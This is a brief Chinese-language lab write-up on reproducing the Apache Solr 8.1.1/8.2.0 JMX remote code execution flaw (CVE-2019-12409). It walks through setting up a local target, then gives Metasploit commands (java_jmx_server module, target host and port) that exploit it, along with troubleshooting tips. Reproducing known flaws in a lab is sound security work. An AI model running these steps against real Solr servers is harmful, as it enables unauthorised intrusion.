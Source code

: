 # 0x00 复现环境
使用复现环境：本地搭建的环境  
复现版本：Solr 8.2.0

# 0x01 环境搭建
目标环境：centos7_x64_en-us + solr-8.2.0.tgz + openjdk version "1.8.0_181"  
wget https://archive.apache.org/dist/lucene/solr/8.2.0/solr-8.2.0.tgz  
tar -xvf ./solr-8.2.0.tgz  
cd ./solr-8.2.0.tgz/bin/  
./solr start -force#默认启动端口8983  
启动后浏览器访问http://127.0.0.1:8983/ ，出现下图所示表示环境配置完成：  
![image](./1.png)  

# 0x02 利用条件
无

# 0x03 影响版本
Solr 8.1.1
Solr 8.2.0

# 0x04 漏洞复现
攻击环境：kali2020 + msf5  
msfconsole  
use exploit/multi/misc/java_jmx_server  
set rhosts 172.16.35.138  
set rport 18983  
run  
![image](./2.png)


# 0x05 踩坑记录
坑1：  
在kali下搭建的漏洞环境run多次后一直失败，经查看发现kali下的java版本是openjdk version "11.0.6" 2020-01-14，怀疑可能是java版本过高导致的利用失败，故在ubuntu16.04_x64_en-us下使用java8重新搭建solr-8.2.0.zip，漏洞利用成功。
看过别人在java10下也有利用成功的文章，怀疑可能exp针对java10及以下的版本才有效。  
坑2：  
centos7下默认开启防火墙，需要临时关闭防火墙：“systemctl stop firewalld”

# 参考链接
https://github.com/jas502n/CVE-2019-12409
